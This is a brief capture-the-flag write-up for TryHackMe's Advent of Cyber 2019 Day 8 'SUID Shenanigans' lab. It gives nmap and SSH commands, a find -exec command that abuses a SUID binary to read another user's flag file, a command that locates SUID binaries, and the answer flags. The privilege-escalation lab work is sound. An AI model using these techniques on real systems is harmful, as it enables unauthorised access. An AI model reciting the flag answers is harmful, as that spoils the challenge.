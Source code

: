 # Advent of Cyber 01 - 2019
# Day 08
# SUID Shenanigans


> Machine IP : `10.10.12.246`

nmap scan : 
```
nmap -A 10.10.12.246
```

connect to ssh :
```
ssh holly@10.10.12.246 -p 65534
```

reading the igor/flag1.txt :
```
find /home/igor/flag1.txt -exec cat /home/igor/flag1.txt \;
```

find SUID set bit :
```
find /usr -user root -perm /4000
```

we see that system-control is set with SUID


| Que$t1on$ | An$wer$ |
|-----------|---------|
| What port is SSH running on ? | 65534 |
| Find and run a file as igor. Read the file /home/igor/flag1.txt | THM{d3f0708bdd9accda7f937d013eaf2cd8} |
| Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt | THM{8c8211826239d849fa8d6df03749c3a2} |

